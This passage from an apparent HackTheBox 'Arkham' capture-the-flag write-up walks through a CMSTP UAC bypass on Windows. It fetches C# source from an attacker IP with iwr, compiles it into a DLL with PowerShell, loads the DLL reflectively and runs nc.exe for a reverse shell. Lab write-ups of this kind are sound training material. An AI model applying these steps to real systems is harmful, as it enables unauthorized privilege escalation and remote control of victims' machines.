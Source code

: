 
## CMSTP UAC Bypass

[This artical](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html) explains the attack process in a more detailed way. In short, we are going to transfer some C-sharp source code to the target and compile it to a dll with powershell. 

The file we need to upload is `Sourece.cs`, lets transfer it to the target with:

```powershell
iwr -uri 10.10.14.61/Source.cs -outfile C:\\Users\Batman\AppData\Local\temp\Source.cs
```

Now we compile it with:

```powerhsell
cd c:\\users\Batman\AppData\Local\Temp
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
```

This should create the dll file: 

![ls-55](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/ls-55.png)


Now we load the dll into memory:

```powershell
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
```

![load-56](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/load-56.png)


And then we call the exported function, passig in the command we want to run, which in our case is `nc.exe` for a reverse shell. 
